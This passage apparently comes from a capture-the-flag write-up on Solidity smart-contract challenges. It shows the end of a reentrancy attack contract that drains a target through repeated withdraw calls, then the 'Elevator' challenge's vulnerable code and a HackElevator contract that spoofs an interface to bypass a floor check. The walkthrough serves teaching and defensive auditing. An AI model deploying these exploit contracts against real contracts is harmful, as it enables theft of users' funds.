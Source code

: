 ```solidity
    }

    receive() external payable {
        uint256 amount = min(1e18, address(target).balance);
        if (amount > 0) {
            target.withdraw(amount);
        }
    }

    function min(uint256 x, uint256 y) private pure returns(uint256) {
        return x <= y ? x : y;
    }
}
```

### Key takeaway

Check functions with business critical logic for being CEI-compliant and for
special modifiers such as OZ's `nonReentrant`.

## Elevator

### Reference

**An interface** is a collection of function declarations without
implementations. In this case, any `msg.sender` which implements
`isLastFloor()` would be appropriate.

### Vulnerability

```solidity
...
function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
...
```

### Solution

```solidity
contract HackElevator {
    Elevator private target;
    uint8 private callCounter;

    constructor(address _target) {
        target = Elevator(_target);
    }

    function attack() external {
        target.goTo(666);
    }

    function isLastFloor(uint256) external returns (bool) {
        callCounter++;
        return callCounter > 1;
    }
}
```
